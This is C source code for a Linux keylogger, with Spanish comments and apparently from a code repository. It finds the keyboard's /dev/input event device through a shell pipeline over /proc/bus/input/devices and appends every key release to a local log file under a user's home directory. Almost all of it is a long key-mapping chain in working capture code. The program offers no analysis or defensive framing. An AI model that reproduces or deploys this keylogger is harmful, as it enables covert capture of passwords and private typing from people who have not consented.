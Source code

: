 #include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <linux/input.h>
#include <sys/stat.h>
#include <string.h>
#include <stdlib.h>
#include <errno.h>

#define LOGFILEPATH "/home/sofia/keylogger/keylogger.txt"

char *getEvent();

int main(){
  struct input_event ev;
  // ruta al directorio de inputs
  static char path_keyboard[20] = "/dev/input/";
  // concatenar variable keyboard
  strcat(path_keyboard, getEvent());
  // eliminar último caracter (breakline)
  path_keyboard[strlen(path_keyboard)-1] = 0;
  // leer ruta a input
  int device_keyboard = open(path_keyboard, O_RDONLY);
  // imprimir error
  if (errno > 0) {
    printf("Error: %d\n", errno);
  }
  // abrir fichero de logs
  FILE *fp = fopen(LOGFILEPATH, "a");
  while (1) {
    read(device_keyboard, &ev, sizeof(ev));
    if (ev.type == EV_KEY && ev.value == 0) {
    	fprintf(fp, " ");
    	if (ev.code == KEY_ESC) {
    	    fputs("ESC", fp);
	} else if (ev.code == KEY_1) {
	    fputc('1', fp);
	} else if (ev.code == KEY_2) {
	    fputc('2', fp);
	} else if (ev.code == KEY_3) {
	    fputc('3', fp);
	} else if (ev.code == KEY_4) {
	    fputc('4', fp);
	} else if (ev.code == KEY_5) {
	    fputc('5', fp);
	} else if (ev.code == KEY_6) {
	    fputc('6', fp);
	} else if (ev.code == KEY_7) {
	    fputc('7', fp);
	} else if (ev.code == KEY_8) {
	    fputc('8', fp);
	} else if (ev.code == KEY_9) {
	    fputc('9', fp);
	} else if (ev.code == KEY_0) {
	    fputc('0', fp);
	} else if (ev.code == KEY_MINUS) {
	    fputc('-', fp);
	} else if (ev.code == KEY_EQUAL) {
	    fputc('=', fp);
	} else if (ev.code == KEY_BACKSPACE) {
	    fputs("BACKSPACE", fp);
	} else if (ev.code == KEY_TAB) {
	    fputs("TAB", fp);
	} else if (ev.code == KEY_Q) {
	    fputc('Q', fp);
	} else if (ev.code == KEY_W) {
	    fputc('W', fp);
	} else if (ev.code == KEY_E) {
	    fputc('E', fp);
	} else if (ev.code == KEY_R) {
	    fputc('R', fp);
	} else if (ev.code == KEY_T) {
	    fputc('T', fp);
	} else if (ev.code == KEY_Y) {
	    fputc('Y', fp);
	} else if (ev.code == KEY_U) {
	    fputc('U', fp);
	} else if (ev.code == KEY_I) {
	    fputc('I', fp);
	} else if (ev.code == KEY_O) {
	    fputc('O', fp);
	} else if (ev.code == KEY_P) {
	    fputc('P', fp);
	} else if (ev.code == KEY_LEFTBRACE) {
	    fputc('[', fp);
	} else if (ev.code == KEY_RIGHTBRACE) {
	    fputc(']', fp);
	} else if (ev.code == KEY_ENTER) {
	    fputs("ENTER", fp);
	} else if (ev.code == KEY_LEFTCTRL) {
	    fputs("LEFTCTRL", fp);
	} else if (ev.code == KEY_A) {
	    fputc('A', fp);
	} else if (ev.code == KEY_S) {
	    fputc('S', fp);
	} else if (ev.code == KEY_D) {
	    fputc('D', fp);
	} else if (ev.code == KEY_F) {
	    fputc('F', fp);
	} else if (ev.code == KEY_G) {
	    fputc('G', fp);
	} else if (ev.code == KEY_H) {
	    fputc('H', fp);
	} else if (ev.code == KEY_J) {
	    fputc('J', fp);
	} else if (ev.code == KEY_K) {
	    fputc('K', fp);
	} else if (ev.code == KEY_L) {
	    fputc('L', fp);
	} else if (ev.code == KEY_SEMICOLON) {
	    fputc(';', fp);
	} else if (ev.code == KEY_APOSTROPHE) {
	    fputc('\'', fp);
	} else if (ev.code == KEY_GRAVE) {
	    fputc('`', fp);
	} else if (ev.code == KEY_LEFTSHIFT) {
	    fputs("LEFTSHIFT", fp);
	} else if (ev.code == KEY_BACKSLASH) {
	    fputc('\\', fp);
	} else if (ev.code == KEY_Z) {
	    fputc('Z', fp);
	} else if (ev.code == KEY_X) {
	    fputc('X', fp);
	} else if (ev.code == KEY_C) {
	    fputc('C', fp);
	} else if (ev.code == KEY_V) {
	    fputc('V', fp);
	} else if (ev.code == KEY_B) {
	    fputc('B', fp);
	} else if (ev.code == KEY_N) {
	    fputc('N', fp);
	} else if (ev.code == KEY_M) {
	    fputc('M', fp);
	} else if (ev.code == KEY_COMMA) {
	    fputc(',', fp);
	} else if (ev.code == KEY_DOT) {
	    fputc('.', fp);
	} else if (ev.code == KEY_SLASH) {
	    fputc('/', fp);
	} else if (ev.code == KEY_RIGHTSHIFT) {
	    fputs("RIGHTSHIFT", fp);
	} else if (ev.code == KEY_KPASTERISK) {
	    fputc('*', fp);
	} else if (ev.code == KEY_LEFTALT) {
	    fputs("LEFTALT", fp);
	} else if (ev.code == KEY_SPACE) {
	    fputc(' ', fp);
	} else if (ev.code == KEY_CAPSLOCK) {
	    fputs("CAPSLOCK", fp);
	} else if (ev.code == KEY_F1) {
	    fputs("F1", fp);
	} else if (ev.code == KEY_F2) {
	    fputs("F2", fp);
	} else if (ev.code == KEY_F3) {
	    fputs("F3", fp);
	} else if (ev.code == KEY_F4) {
	    fputs("F4", fp);
	} else if (ev.code == KEY_F5) {
	    fputs("F5", fp);
	} else if (ev.code == KEY_F6) {
	    fputs("F6", fp);
	} else if (ev.code == KEY_F7) {
	    fputs("F7", fp);
	} else if (ev.code == KEY_F8) {
	    fputs("F8", fp);
	} else if (ev.code == KEY_F9) {
	    fputs("F9", fp);
	} else if (ev.code == KEY_F10) {
	    fputs("F10", fp);
	} else if (ev.code == KEY_NUMLOCK) {
	    fputs("NUMLOCK", fp);
	} else if (ev.code == KEY_SCROLLLOCK) {
	    fputs("SCROLLLOCK", fp);
	} else if (ev.code == KEY_KP7) {
	    fputc('7', fp);
	} else if (ev.code == KEY_KP8) {
	    fputc('8', fp);
	} else if (ev.code == KEY_KP9) {
	    fputc('9', fp);
	} else if (ev.code == KEY_KPMINUS) {
	    fputc('-', fp);
	} else if (ev.code == KEY_KP4) {
	    fputc('4', fp);
	} else if (ev.code == KEY_KP5) {
	    fputc('5', fp);
	} else if (ev.code == KEY_KP6) {
	    fputc('6', fp);
	} else if (ev.code == KEY_KPPLUS) {
	    fputc('+', fp);
	} else if (ev.code == KEY_KP1) {
	    fputc('1', fp);
	} else if (ev.code == KEY_KP2) {
	    fputc('2', fp);
	} else if (ev.code == KEY_KP3) {
	    fputc('3', fp);
	} else if (ev.code == KEY_KP0) {
	    fputc('0', fp);
	} else if (ev.code == KEY_KPDOT) {
	    fputc('.', fp);
	} else if (ev.code == KEY_ZENKAKUHANKAKU) {
	    fputs("ZENKAKUHANKAKU", fp);
	} else if (ev.code == KEY_102ND) {
	    fputs("102ND", fp);
	} else if (ev.code == KEY_F11) {
	    fputs("F11", fp);
	} else if (ev.code == KEY_F12) {
	    fputs("F12", fp);
	} else if (ev.code == KEY_RO) {
	    fputs("RO", fp);
	} else if (ev.code == KEY_KATAKANA) {
	    fputs("KATAKANA", fp);
	} else if (ev.code == KEY_HIRAGANA) {
	    fputs("HIRAGANA", fp);
	} else if (ev.code == KEY_HENKAN) {
	    fputs("HENKAN", fp);
	} else if (ev.code == KEY_KATAKANAHIRAGANA) {
	    fputs("KATAKANAHIRAGANA", fp);
	} else if (ev.code == KEY_MUHENKAN) {
	    fputs("MUHENKAN", fp);
	} else if (ev.code == KEY_KPJPCOMMA) {
	    fputc(',', fp);
	} else if (ev.code == KEY_KPENTER) {
	    fputs("KPENTER", fp);
	} else if (ev.code == KEY_RIGHTCTRL) {
	    fputs("RIGHTCTRL", fp);
	} else if (ev.code == KEY_KPSLASH) {
	    fputc('/', fp);
	} else if (ev.code == KEY_SYSRQ) {
	    fputs("SYSRQ", fp);
	} else if (ev.code == KEY_RIGHTALT) {
	    fputs("RIGHTALT", fp);
	} else if (ev.code == KEY_LINEFEED) {
	    fputs("LINEFEED", fp);
	} else if (ev.code == KEY_HOME) {
	    fputs("HOME", fp);
	} else if (ev.code == KEY_UP) {
	    fputs("UP", fp);
	} else if (ev.code == KEY_PAGEUP) {
	    fputs("PAGEUP", fp);
	} else if (ev.code == KEY_LEFT) {
	    fputs("LEFT", fp);
	} else if (ev.code == KEY_RIGHT) {
	    fputs("RIGHT", fp);
	} else if (ev.code == KEY_END) {
	    fputs("END", fp);
	} else if (ev.code == KEY_DOWN) {
	    fputs("DOWN", fp);
	} else if (ev.code == KEY_PAGEDOWN) {
	    fputs("PAGEDOWN", fp);
	} else if (ev.code == KEY_INSERT) {
	    fputs("INSERT", fp);
	} else if (ev.code == KEY_DELETE) {
	    fputs("DELETE", fp);
	} else if (ev.code == KEY_MACRO) {
	    fputs("MACRO", fp);
	} else if (ev.code == KEY_MUTE) {
	    fputs("MUTE", fp);
	} else if (ev.code == KEY_VOLUMEDOWN) {
	    fputs("VOLUMEDOWN", fp);
	} else if (ev.code == KEY_VOLUMEUP) {
	    fputs("VOLUMEUP", fp);
	} else if (ev.code == KEY_POWER) {
	    fputs("POWER", fp);
	} else if (ev.code == KEY_KPEQUAL) {
	    fputc('=', fp);
	} else if (ev.code == KEY_KPPLUSMINUS) {
	    fputs("KPPLUSMINUS", fp);
	} else if (ev.code == KEY_PAUSE) {
	    fputs("PAUSE", fp);
	} else if (ev.code == KEY_SCALE) {
	    fputs("SCALE", fp);
	} else if (ev.code == KEY_KPCOMMA) {
	    fputc(',', fp);
	} else if (ev.code == KEY_HANGEUL) {
	    fputs("HANGEUL", fp);
	} else if (ev.code == KEY_HANJA) {
	    fputs("HANJA", fp);
	} else if (ev.code == KEY_YEN) {
	    fputs("YEN", fp);
	} else if (ev.code == KEY_LEFTMETA) {
	    fputs("LEFTMETA", fp);
	} else if (ev.code == KEY_RIGHTMETA) {
	    fputs("RIGHTMETA", fp);
	} else if (ev.code == KEY_COMPOSE) {
	    fputs("COMPOSE", fp);
	} else if (ev.code == KEY_STOP) {
	    fputs("STOP", fp);
	} else if (ev.code == KEY_AGAIN) {
	    fputs("AGAIN", fp);
	} else if (ev.code == KEY_PROPS) {
	    fputs("PROPS", fp);
	} else if (ev.code == KEY_UNDO) {
	    fputs("UNDO", fp);
	} else if (ev.code == KEY_FRONT) {
	    fputs("FRONT", fp);
	} else if (ev.code == KEY_COPY) {
	    fputs("COPY", fp);
	} else if (ev.code == KEY_OPEN) {
	    fputs("OPEN", fp);
	} else if (ev.code == KEY_PASTE) {
	    fputs("PASTE", fp);
	} else if (ev.code == KEY_FIND) {
	    fputs("FIND", fp);
	} else if (ev.code == KEY_CUT) {
	    fputs("CUT", fp);
	} else if (ev.code == KEY_HELP) {
	    fputs("HELP", fp);
	} else if (ev.code == KEY_MENU) {
	    fputs("MENU", fp);
	} else if (ev.code == KEY_CALC) {
	    fputs("CALC", fp);
	} else if (ev.code == KEY_SETUP) {
	    fputs("SETUP", fp);
	} else if (ev.code == KEY_SLEEP) {
	    fputs("SLEEP", fp);
	} else if (ev.code == KEY_WAKEUP) {
	    fputs("WAKEUP", fp);
	} else if (ev.code == KEY_FILE) {
	    fputs("FILE", fp);
	} else if (ev.code == KEY_SENDFILE) {
	    fputs("SENDFILE", fp);
	} else if (ev.code == KEY_DELETEFILE) {
	    fputs("DELETEFILE", fp);
	} else if (ev.code == KEY_XFER) {
	    fputs("XFER", fp);
	} else if (ev.code == KEY_PROG1) {
	    fputs("PROG1", fp);
	} else if (ev.code == KEY_PROG2) {
	    fputs("PROG2", fp);
	} else if (ev.code == KEY_WWW) {
	    fputs("WWW", fp);
	} else if (ev.code == KEY_MSDOS) {
	    fputs("MSDOS", fp);
	} else if (ev.code == KEY_COFFEE) {
	    fputs("COFFEE", fp);
	} else if (ev.code == KEY_ROTATE_DISPLAY) {
	    fputs("ROTATE_DISPLAY", fp);
	} else if (ev.code == KEY_CYCLEWINDOWS) {
	    fputs("CYCLEWINDOWS", fp);
	} else if (ev.code == KEY_MAIL) {
	    fputs("MAIL", fp);
	} else if (ev.code == KEY_BOOKMARKS) {
	    fputs("BOOKMARKS", fp);
	} else if (ev.code == KEY_COMPUTER) {
	    fputs("COMPUTER", fp);
	} else if (ev.code == KEY_BACK) {
	    fputs("BACK", fp);
	} else if (ev.code == KEY_FORWARD) {
	    fputs("FORWARD", fp);
	} else if (ev.code == KEY_CLOSECD) {
	    fputs("CLOSECD", fp);
	} else if (ev.code == KEY_EJECTCD) {
	    fputs("EJECTCD", fp);
	} else if (ev.code == KEY_EJECTCLOSECD) {
	    fputs("EJECTCLOSECD", fp);
	} else if (ev.code == KEY_NEXTSONG) {
	    fputs("NEXTSONG", fp);
	} else if (ev.code == KEY_PLAYPAUSE) {
	    fputs("PLAYPAUSE", fp);
	} else if (ev.code == KEY_PREVIOUSSONG) {
	    fputs("PREVIOUSSONG", fp);
	} else if (ev.code == KEY_STOPCD) {
	    fputs("STOPCD", fp);
	} else if (ev.code == KEY_RECORD) {
	    fputs("RECORD", fp);
	} else if (ev.code == KEY_REWIND) {
	    fputs("REWIND", fp);
	} else if (ev.code == KEY_PHONE) {
	    fputs("PHONE", fp);
	} else if (ev.code == KEY_ISO) {
	    fputs("ISO", fp);
	} else if (ev.code == KEY_CONFIG) {
	    fputs("CONFIG", fp);
	} else if (ev.code == KEY_HOMEPAGE) {
	    fputs("HOMEPAGE", fp);
	} else if (ev.code == KEY_REFRESH) {
	    fputs("REFRESH", fp);
	} else if (ev.code == KEY_EXIT) {
	    fputs("EXIT", fp);
	} else if (ev.code == KEY_MOVE) {
	    fputs("MOVE", fp);
	} else if (ev.code == KEY_EDIT) {
	    fputs("EDIT", fp);
	} else if (ev.code == KEY_SCROLLUP) {
	    fputs("SCROLLUP", fp);
	} else if (ev.code == KEY_SCROLLDOWN) {
	    fputs("SCROLLDOWN", fp);
	} else if (ev.code == KEY_KPLEFTPAREN) {
	    fputc('(', fp);
	} else if (ev.code == KEY_KPRIGHTPAREN) {
	    fputc(')', fp);
	} else if (ev.code == KEY_NEW) {
	    fputs("NEW", fp);
	} else if (ev.code == KEY_REDO) {
	    fputs("REDO", fp);
	} else if (ev.code == KEY_F13) {
	    fputs("F13", fp);
	} else if (ev.code == KEY_F14) {
	    fputs("F14", fp);
	} else if (ev.code == KEY_F15) {
	    fputs("F15", fp);
	} else if (ev.code == KEY_F16) {
	    fputs("F16", fp);
	} else if (ev.code == KEY_F17) {
	    fputs("F17", fp);
	} else if (ev.code == KEY_F18) {
	    fputs("F18", fp);
	} else if (ev.code == KEY_F19) {
	    fputs("F19", fp);
	} else if (ev.code == KEY_F20) {
	    fputs("F20", fp);
	} else if (ev.code == KEY_F21) {
	    fputs("F21", fp);
	} else if (ev.code == KEY_F22) {
	    fputs("F22", fp);
	} else if (ev.code == KEY_F23) {
	    fputs("F23", fp);
	} else if (ev.code == KEY_F24) {
	    fputs("F24", fp);
	} else if (ev.code == KEY_PLAYCD) {
	    fputs("PLAYCD", fp);
	} else if (ev.code == KEY_PAUSECD) {
	    fputs("PAUSECD", fp);
	} else if (ev.code == KEY_PROG3) {
	    fputs("PROG3", fp);
	} else if (ev.code == KEY_PROG4) {
	    fputs("PROG4", fp);
	} else if (ev.code == KEY_ALL_APPLICATIONS) {
	    fputs("ALL_APPLICATIONS", fp);
	} else if (ev.code == KEY_SUSPEND) {
	    fputs("SUSPEND", fp);
	} else if (ev.code == KEY_CLOSE) {
	    fputs("CLOSE", fp);
	} else if (ev.code == KEY_PLAY) {
	    fputs("PLAY", fp);
	} else if (ev.code == KEY_FASTFORWARD) {
	    fputs("FASTFORWARD", fp);
	} else if (ev.code == KEY_BASSBOOST) {
	    fputs("BASSBOOST", fp);
	} else if (ev.code == KEY_PRINT) {
	    fputs("PRINT", fp);
	} else if (ev.code == KEY_HP) {
	    fputs("HP", fp);
	} else if (ev.code == KEY_CAMERA) {
	    fputs("CAMERA", fp);
	} else if (ev.code == KEY_SOUND) {
	    fputs("SOUND", fp);
	} else if (ev.code == KEY_QUESTION) {
	    fputs("QUESTION", fp);
	} else if (ev.code == KEY_EMAIL) {
	    fputs("EMAIL", fp);
	} else if (ev.code == KEY_CHAT) {
	    fputs("CHAT", fp);
	} else if (ev.code == KEY_SEARCH) {
	    fputs("SEARCH", fp);
	} else if (ev.code == KEY_CONNECT) {
	    fputs("CONNECT", fp);
	} else if (ev.code == KEY_FINANCE) {
	    fputs("FINANCE", fp);
	} else if (ev.code == KEY_SPORT) {
	    fputs("SPORT", fp);
	} else if (ev.code == KEY_SHOP) {
	    fputs("SHOP", fp);
	} else if (ev.code == KEY_ALTERASE) {
	    fputs("ALTERASE", fp);
	} else if (ev.code == KEY_CANCEL) {
	    fputs("CANCEL", fp);
	} else if (ev.code == KEY_BRIGHTNESSDOWN) {
	    fputs("BRIGHTNESSDOWN", fp);
	} else if (ev.code == KEY_BRIGHTNESSUP) {
	    fputs("BRIGHTNESSUP", fp);
	} else if (ev.code == KEY_MEDIA) {
	    fputs("MEDIA", fp);
	} else if (ev.code == KEY_SWITCHVIDEOMODE) {
	    fputs("SWITCHVIDEOMODE", fp);
	} else if (ev.code == KEY_KBDILLUMTOGGLE) {
	    fputs("KBDILLUMTOGGLE", fp);
	} else if (ev.code == KEY_KBDILLUMDOWN) {
	    fputs("KBDILLUMDOWN", fp);
	} else if (ev.code == KEY_KBDILLUMUP) {
	    fputs("KBDILLUMUP", fp);
	} else if (ev.code == KEY_SEND) {
	    fputs("SEND", fp);
	} else if (ev.code == KEY_REPLY) {
	    fputs("REPLY", fp);
	} else if (ev.code == KEY_FORWARDMAIL) {
	    fputs("FORWARDMAIL", fp);
	} else if (ev.code == KEY_SAVE) {
	    fputs("SAVE", fp);
	} else if (ev.code == KEY_DOCUMENTS) {
	    fputs("DOCUMENTS", fp);
	} else if (ev.code == KEY_BATTERY) {
	    fputs("BATTERY", fp);
	} else if (ev.code == KEY_BLUETOOTH) {
	    fputs("BLUETOOTH", fp);
	} else if (ev.code == KEY_WLAN) {
	    fputs("WLAN", fp);
	} else if (ev.code == KEY_UWB) {
	    fputs("UWB", fp);
	} else if (ev.code == KEY_UNKNOWN) {
	    fputs("UNKNOWN", fp);
	} else if (ev.code == KEY_VIDEO_NEXT) {
	    fputs("VIDEO_NEXT", fp);
	} else if (ev.code == KEY_VIDEO_PREV) {
	    fputs("VIDEO_PREV", fp);
	} else if (ev.code == KEY_BRIGHTNESS_CYCLE) {
	    fputs("BRIGHTNESS_CYCLE", fp);
	} else if (ev.code == KEY_BRIGHTNESS_AUTO) {
	    fputs("BRIGHTNESS_AUTO", fp);
	} else if (ev.code == KEY_DISPLAY_OFF) {
	    fputs("DISPLAY_OFF", fp);
	} else if (ev.code == KEY_WWAN) {
	    fputs("WWAN", fp);
	} else if (ev.code == KEY_RFKILL) {
	    fputs("RFKILL", fp);
	} else if (ev.code == KEY_MICMUTE) {
	    fputs("MICMUTE", fp);
	}
     	fflush(fp);
    }
  }
}

char *getEvent(){
  // leer el fichero devices y extraer el input que se refiera al teclado
  char *command =  (char *) "cat /proc/bus/input/devices | grep -C 5 keyboard | grep -E -o 'event[0-9]'";
  static char event[8];
  FILE *pipe = popen(command, "r");
  if (!pipe)
    exit(1);
  // obtener la cadena de texto del evento correspondiente al teclado
  fgets(event, 8, pipe);
  pclose(pipe);
  // retornar el evento
  return event;
}

